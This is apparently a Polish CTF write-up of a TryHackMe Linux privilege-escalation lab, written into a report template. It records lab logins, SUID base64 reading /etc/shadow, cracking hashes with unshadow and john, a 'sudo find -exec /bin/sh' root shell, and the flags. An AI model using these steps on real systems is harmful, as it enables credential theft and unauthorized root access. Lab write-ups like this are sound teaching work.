






Ten box zaczyna się od zalogowania na ssh użytkownika:
`leonard:Penny123`

# **Post-Exploit Enumeration**
## **Operating Environment**
### OS & Kernel

```text
  - "uname -a" 
    Linux ip-10-10-204-242 3.10.0-1160.el7.x86_64 #1 SMP Mon Oct 19 16:18:59 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
  - "cat /etc/os-release"
    NAME="CentOS Linux"
VERSION="7 (Core)"
ID="centos"
ID_LIKE="rhel fedora"
VERSION_ID="7"
PRETTY_NAME="CentOS Linux 7 (Core)"
ANSI_COLOR="0;31"
CPE_NAME="cpe:/o:centos:centos:7"
HOME_URL="http://cern.ch/linux/"
BUG_REPORT_URL="http://cern.ch/linux/"

CENTOS_MANTISBT_PROJECT="CentOS-7"
CENTOS_MANTISBT_PROJECT_VERSION="7"
REDHAT_SUPPORT_PRODUCT="centos"
REDHAT_SUPPORT_PRODUCT_VERSION="7"
- "env" 
  XDG_SESSION_ID=1
HOSTNAME=ip-10-10-204-242
SELINUX_ROLE_REQUESTED=
TERM=tmux-256color
SHELL=/bin/bash
HISTSIZE=1000
TMPDIR=/tmp/leonard
SSH_CLIENT=10.21.251.149 46912 22
PERL5LIB=/home/leonard/perl5/lib/perl5:
SELINUX_USE_CURRENT_RANGE=
QTDIR=/usr/lib64/qt-3.3
QTINC=/usr/lib64/qt-3.3/include
PERL_MB_OPT=--install_base /home/leonard/perl5
SSH_TTY=/dev/pts/0
QT_GRAPHICSSYSTEM_CHECKED=1
USER=leonard
LS_COLORS=
CASTOR_HOME=/castor/cern.ch/user/l/leonard
MAIL=/var/spool/mail/leonard
PATH=/home/leonard/scripts:/usr/sue/bin:/usr/lib64/qt-3.3/bin:/home/leonard/perl5/bin:/usr/local/bin:/usr/bin:/usr/local/sbin:/usr/sbin:/opt/puppetlabs/bin:/home/leonard/.local/bin:/home/leonard/bin
PWD=/
EDITOR=/bin/nano -w
LANG=en_US.UTF-8
KDEDIRS=/usr
SELINUX_LEVEL_REQUESTED=
HISTCONTROL=ignoredups
SHLVL=1
HOME=/home/leonard
PERL_LOCAL_LIB_ROOT=:/home/leonard/perl5
LOGNAME=leonard
QTLIB=/usr/lib64/qt-3.3/lib
XDG_DATA_DIRS=/home/leonard/.local/share/flatpak/exports/share:/var/lib/flatpak/exports/share:/usr/local/share:/usr/share
SSH_CONNECTION=10.21.251.149 46912 10.10.204.242 22
LESSOPEN=||/usr/bin/lesspipe.sh %s
XDG_RUNTIME_DIR=/run/user/1000
QT_PLUGIN_PATH=/usr/lib64/kde4/plugins:/usr/lib/kde4/plugins
PERL_MM_OPT=INSTALL_BASE=/home/leonard/perl5
_=/usr/bin/env
OLDPWD=/home/leonard
```

Ciekawa w env jest zmienna PATH:
```
PATH=/home/leonard/scripts:/usr/sue/bin:/usr/lib64/qt-3.3/bin:/home/leonard/perl5/bin:/usr/local/bin:/usr/bin:/usr/local/sbin:/usr/sbin:/opt/puppetlabs/bin:/home/leonard/.local/bin:/home/leonard/bin
```

### Current User

```text
  - "id" 
    uid=1000(leonard) gid=1000(leonard) groups=1000(leonard) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023

  - "sudo -l": Brak praw
```


## **Users and Groups**

### Local Users

```text
- "cat /etc/passwd"
	leonard:x:1000:1000:leonard:/home/leonard:/bin/bash
	missy:x:1001:1001::/home/missy:/bin/bash
```


### Open Ports

```text
 "netstat -tanup | grep -i listen":
tcp        0      0 192.168.122.1:53        0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:631           0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:25              0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:111             0.0.0.0:*               LISTEN      -                   
tcp6       0      0 :::22                   :::*                    LISTEN      -                   
tcp6       0      0 ::1:631                 :::*                    LISTEN      -                   
tcp6       0      0 :::111                  :::*                    LISTEN      - 
```


## **Processes and Services**

### Interesting Processes

```text
First...
Enumerate processes:
  
- Windows
  - "tasklist"
  - "Get-Process"
  - "Get-CimInstance -ClassName Win32_Process | Select-Object Name, @{Name = 'Owner' ; Expression = {$owner = $_ | Invoke-CimMethod -MethodName GetOwner -ErrorAction SilentlyContinue ; if ($owner.ReturnValue -eq 0) {$owner.Domain + '\' + $owner.User}}}, CommandLine | Sort-Object Owner | Format-List"
  
- *nix
  - "ps aux --sort user"
  
Then...
Document here:
  - Any interesting processes run by users/administrators
  - Any vulnerable applications
  - Any intersting command line arguments visible
```


## **Interesting Files**
### C:\InterestingDir\Interesting-File1.txt

```text
- *nix
	- Check for SUID binaries
		- "find / -type f -perm /4000 -exec ls -l {} \; 2>/dev/null"
  	- [Check binary capabilities](https://linux-audit.com/kernel/capabilities/overview/)
 		- "getcap-r / 2>/dev/null"
	  	- If "getcap" command not found, check "/usr/bin/getcap" or "/usr/sbin/getcap" (probably "$PATH" issue)
	- Check for interesting / writable scripts, writable directories or files
		- `find /etc -writable -exec ls -l {} \; 2>/dev/null`
  		- `find / -type f \( -user $(whoami) -o -group $(whoami) \) -exec ls -l {} \; 2>/dev/null
	- Check for configuration files with passwords and other interesting info
	- Check for scripts with external dependencies that can be overwritten or changed
	- Use strings on interesting binaries to check for relative binary names and $PATH hijacking
	- Some interesting places to check (check for hidden items)
    	- Check PATH variable for current user for possible interesting locations
 		- /interesting_folder
		- /home/user_name
			- .profile
			- .bashrc, .zshrc
			- .bash_history, .zsh_history
			- Desktop, Downloads, Documents, .ssh, etc.
			- PowerShell History File: (Get-PSReadLineOption).HistorySavePath
		- /var/www/interesting_folder
		- /var/mail/user_name
		- /opt/interesting_folder
		- /usr/local/interesting_folder
		- /usr/local/bin/interesting_folder
		- /usr/local/share/interesting_folder
		- /etc/hosts
		- /tmp
		- /mnt
		- /media
		- /etc
	- Look for interesting service folders
	- Check for readable and/or writable configuration files
	- May find cleartext passwords
```

```
find / -type f -perm /4000 -exec ls -l {} \; 2>/dev/null:
-rwsr-xr-x. 1 root root 37360 Aug 20  2019 /usr/bin/base64 
```

Program base64 posiada SUID co pozwala na odczyt plików z systemu.

### /opt/interesting_dir/interesting-file2.txt

```text
Add full file contents
Or snippet of file contents
```


# **Privilege Escalation**  
Document here:
* Exploit used (link to exploit)
* Explain how the exploit works 
* Any modified code (and why you modified it)
* Proof of privilege escalation (screenshot showing ip address and privileged username)
	
Zmienna środowiskowa $PATH
```
/home/leonard/scripts:/usr/sue/bin:/usr/lib64/qt-3.3/bin:/home/leonard/perl5/bin:/usr/local/bin:/usr/bin:/usr/local/sbin:/usr/sbin:/opt/puppetlabs/bin:/home/leonard/.local/bin:/home/leonard/bin
```

Zalogowany użytkownik posiada prawa do zapisu w folderze `home/leonard`. Widać w PATH że folder `/home/leonard/scripts`.


Z racji na SUID na progarmie base64 możliwe jest odczytanie plików z pozwoleniami roota
`-rwsr-xr-x. 1 root root 37360 Aug 20  2019 /usr/bin/base64`

```
echo `base64 /etc/shadow`
```

Następnie zdekodowanie z base64 pokaże jawnie plik shadow.


Mając shadow i passwd można użyć unshadow do stworzenia pliku na którym za pomocą narzędzia `john`, jest opcja złamać hashe haseł.
`unshadow passwd.txt shadow.txt > passwords.txt`


Mamy dane drugiego użytkownika systemu

`missy:Password1`

Po zalogowaniu się na konto missy w folderze `/home/missy/Documents` znajduje się pierwsza flaga.



`sudo -l` na koncie missy:
```
Matching Defaults entries for missy on ip-10-10-204-242:
    !visiblepw, always_set_home, match_group_by_gid, always_query_group_plugin, env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE
    KDEDIR LS_COLORS", env_keep+="MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE", env_keep+="LC_COLLATE LC_IDENTIFICATION
    LC_MEASUREMENT LC_MESSAGES", env_keep+="LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE", env_keep+="LC_TIME LC_ALL LANGUAGE
    LINGUAS _XKB_CHARSET XAUTHORITY", secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

User missy may run the following commands on ip-10-10-204-242:
    (ALL) NOPASSWD: /usr/bin/find
```

Z racji na SUID na base64 i możliwość użycia bez hasła `sudo` na `find` można odczytać ostatnią flagę, która znajduje się w `/home/rootflag/flag2.txt`



# Zdobycie Root

Ze strony https://gtfobins.github.io/gtfobins/find/ dowiedziałem się, że można wykorzystać `find` z prawami roota do wejścia na roota poleceniem: 

```
find . -exec /bin/sh \; -quit
```


# **Flags**

### Flag1

```text
THM-42828719920544
```

### Flag2

```text
THM-168824782390238
```


<br>
<br>
